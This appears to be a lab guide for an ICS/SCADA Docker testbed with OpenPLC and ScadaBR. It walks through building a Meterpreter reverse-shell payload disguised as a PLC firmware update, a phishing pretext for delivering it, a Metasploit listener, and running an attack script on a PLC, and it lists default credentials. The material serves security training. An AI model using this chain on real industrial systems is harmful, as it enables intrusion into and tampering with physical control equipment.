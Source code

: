# Setting Up Attack Scenarios


## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.9)
   - **Ports:** 10010:8080

**PLC11**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.11)
   - **Ports:** 10011:8080

**PLC12**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.12)
   - **Ports:** 10012:8080

## *Accessing the Components on the browser*

1. **PLC11 Dashboard**:
   - URL: `http://172.18.0.11:10011`
   - **Username**: `openplc`
   - **Password**: `openplc`

1. **PLC12 Dashboard**:
   - URL: `http://172.18.0.12:10012`
   - **Username**: `openplc`
   - **Password**: `openplc`

## *Accessing the Components on via the docker cli*

bash:
```
# For plc11
docker exec -it plc11 bash 
# For plc12
docker exec -it plc12 bash 
```

**NB:** There are 06 PLC in total, from PLC11 ... PLC16, there are in the same network named (swat) with their port number corresponding to their names 
**Ex :** Name :  PLC11, Port : 10011

## *Setting up the attacker's machine*

Docker command:
```
sudo docker run -d -t --net swat --hostname attacker --name attacker --privileged --ip 172.18.0.18 -p 10018:8080 kalilinux/kali-rolling
```

Docker container

**Attacker**
   - **Role:** Simulates the attacker in the Scada network.
   - **Image:** `kalilinux/kali-rolling`
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.18)
   - **Ports:** 10018:8080
   - **Description:** The attacker will install the basic tools to counter attack.

## *Accessing the attacker's machine via the docker cli*

bash:
```
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## *Scenario - 1 : Exploit vulnerable OpenPLC database*

The first scenario consist of exploiting the sqlite database of OpenPLC using a script **db-attack.py** found in the **2 - Attack_scripts folder** 

If Metasploit is not installed, follow these steps:

Attacker's terminal
```
apt-get update && apt-get install -y git curl wget python3-pip
apt install metasploit-framework
```

### *Phase 1 : Craft malicious payload*

- The attacker creates a malicious payload usually named reverse shell using **Metasploit**’s `msfvenom` tool. to access to the plc's container : 

#### *Command to craft the payload in the attacker's machine*

Attacker's terminal
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o firmware_update.elf
``` 

- The attacker loads the malicious payload into the target's machine. In a real world case, he could use phishing or handle a USB key to an employee. He will eventually tell the employee that it could be firmware update for plcs. The idea is to have access to a target's machine in order to manipulate the PLC remotely. 
- In our attack scenario, we assume the phising attack went on successfullu, so we simply upload the crafted payload into the target container

bash 
```
docker cp attacker:/scripts/firmware_update.elf plc11:/workdir
```

Then in plc11, we run this 

Plc11 terminal
```
cd workdir
chmod +x firmware_update.elf
./firmware_update.elf
```

- The payload is running successfully in the target's machine, so the attacker can access the target machine using reverse shell of **Metasploit**’s `msfvenom` tool.

#### *Set up a Metasploit Listener:*

Attacker's terminal
```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.18.0.18 #attacker's IP address
set LPORT 4444
exploit
```

- When the payload is executed, the attacker will gain a reverse shell into the system.
- The attacker can now manipulate the plc and executes any scripts he wishes, the attack uploads the `db-attack.py` to plc's machine

Illustration in meterpreter terminal:
```
upload /path/to/local/file /path/on/target/ (Upload from attacker to target machine)
```

Example

Meterpreter terminal
```
upload /scripts/db-attack.py /workdir
```
- After uplaoding the script in the target's machine, he can execute the script with ease from the meterpreter terminal

Meterpreter terminal
```
shell
python3 db-attack.py
```

![Screenshot](images/db/2.png)


